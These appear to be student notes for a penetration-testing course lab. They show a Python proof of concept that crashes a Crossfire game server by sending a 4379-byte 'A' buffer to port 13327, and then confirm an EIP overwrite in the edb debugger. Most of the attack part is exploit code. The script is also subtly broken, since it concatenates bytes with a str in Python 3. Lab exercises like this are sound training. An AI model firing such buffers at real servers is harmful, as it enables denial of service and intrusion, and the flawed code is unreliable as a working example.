


### 12.2.1.2 Exercises
#### 1. Log in to your dedicated Linux client using the credentials you received.



#### 2. On your Kali machine, recreate the proof-of-concept code that crashes the Crossfire server.

```python
#!/usr/bin/python3
import socket
host = "192.168.216.44"
crash = b"\x41" * 4379
buffer = b"\x11(setup sound " + crash + "\x90\x00#"
s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
print ("[*]Sending evil buffer...")
s.connect((host, 13327))
print (s.recv(1024))
s.send(buffer)
s.close()
print ("[*]Payload Sent !")
```

#### 3. Attach the debugger to the Crossfire server, run the exploit against your Linux client, and confirm that the EIP register is overwritten by the malicious buffer.

- On Debian VM:  

   ```bash
   /usr/games/crossfire/bin/crossfire
   edb
   ```

- Crossfire Attached to EDP:
  
- Ran PoC code, EIP Register overwritten by A's
  